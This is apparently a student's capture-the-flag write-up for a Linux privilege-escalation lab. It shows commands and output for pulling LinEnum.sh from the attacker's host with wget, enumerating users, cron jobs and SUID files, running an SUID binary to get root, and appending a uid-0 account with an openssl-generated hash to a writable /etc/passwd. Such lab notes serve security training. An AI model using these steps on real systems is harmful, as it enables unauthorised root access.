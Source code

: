 export IP: 10.10.121.59

```
user:user3
password:password

```

ssh user3@10.10.121.59

```
1. ssh to machine then verify if target can ping back attacker

user3@polobox:~$ ping 10.2.77.171
PING 10.2.77.171 (10.2.77.171) 56(84) bytes of data.
64 bytes from 10.2.77.171: icmp_seq=1 ttl=61 time=367 ms
^C
--- 10.2.77.171 ping statistics ---
2 packets transmitted, 1 received, 50% packet loss, time 1001ms
rtt min/avg/max/mdev = 367.411/367.411/367.411/0.000 ms
user3@polobox:~$ 
```

2. set up http server on /ken/LinEnum on port 8080. We will be copying the shell to our target machine

```
user3@polobox:~$ wget "http://10.2.77.171:8080/LinEnum.sh"
--2022-08-10 07:53:34--  http://10.2.77.171:8080/LinEnum.sh
Connecting to 10.2.77.171:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                    100%[==============================================>]  45.54K  60.0KB/s    in 0.8s    

2022-08-10 07:53:35 (60.0 KB/s) - ‘LinEnum.sh’ saved [46631/46631]

user3@polobox:~$ 

```

Questions:

First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.


What is the target's hostname?

```
[-] Hostname:
polobox
```
Look at the output of /etc/passwd how many "user[x]" are there on the system?
Ans. 8

```

user1:x:1000:1000:user1,,,:/home/user1:/bin/bash
user2:x:1001:1001:user2,,,:/home/user2:/bin/bash
user3:x:1002:1002:user3,,,:/home/user3:/bin/bash
user4:x:1003:1003:user4,,,:/home/user4:/bin/bash
statd:x:120:65534::/var/lib/nfs:/usr/sbin/nologin
user5:x:1004:1004:user5,,,:/home/user5:/bin/bash
user6:x:1005:1005:user6,,,:/home/user6:/bin/bash
mysql:x:121:131:MySQL Server,,,:/var/mysql:/bin/bash
user7:x:1006:0:user7,,,:/home/user7:/bin/bash
user8:x:1007:1007:user8,,,:/home/user8:/bin/bash
sshd:x:122:65534::/run/sshd:/usr/sbin/nologin


```

How many available shells are there on the system?
Ans. 4

```
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash

```

What is the name of the bash script that is set to run every 5 minutes by cron?
Ans. autoscript.sh

```

[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

```

What critical file has had its permissions changed to allow some users to write to it?

```
/etc/passwd

```


Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!


===================


What is the path of the file in user3's directory that stands out to you?
Ans. /home/user2/shell

```
user3@polobox:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/sbin/mount.ecryptfs_private
/sbin/mount.cifs
/usr/sbin/pppd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/umount
/bin/fusermount
/home/user5/script
/home/user3/shell
user3@polobox:~$ 

```


We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it!

We can do this by running: "./shell"

```

user3@polobox:~$ ./shell
You Can't Find Me
Welcome to Linux Lite 4.4 user3
 
Wednesday 10 August 2022, 08:14:27
Memory Usage: 337/1991MB (16.93%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# 


```



Congratulations! You should now have a shell as root user, well done!

================


First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"



Having read the information above, what direction privilege escalation is this attack?
Ans. Vertical

=========
at this point, the machine broke; ssh connection refused
new IP: 10.10.154.204


export IP = 10.10.154.204

ssh user3@10.10.154.204


Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]"

What is the hash created by using this command with the salt, "new" and the password "123"?
Ans. $1$new$p7ptkEKU1HnaHpRtzNizS1

```
┌──(kali㉿kali)-[~/ken/brainstack/privesec]
└─$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

```

Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash


Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!


```

user7@polobox:/home/user3$ sudo nano /etc/passwd
[sudo] password for user7: 
user7 is not in the sudoers file.  This incident will be reported.
user7@polobox:/home/user3$ nano /etc/passwd

# insert new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash at the end of the file

user7@polobox:/home/user3$ su new
Password: 
Welcome to Linux Lite 4.4
 
You are running in superuser mode, be very careful.
 
Wednesday 10 August 2022, 09:50:31
Memory Usage: 335/1991MB (16.83%)
Disk Usage: 6/217GB (3%)

root@polobox:/home/user3# whoami
root
root@polobox:/home/user3# pwd
/home/user3
root@polobox:/home/user3# 

```


Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!


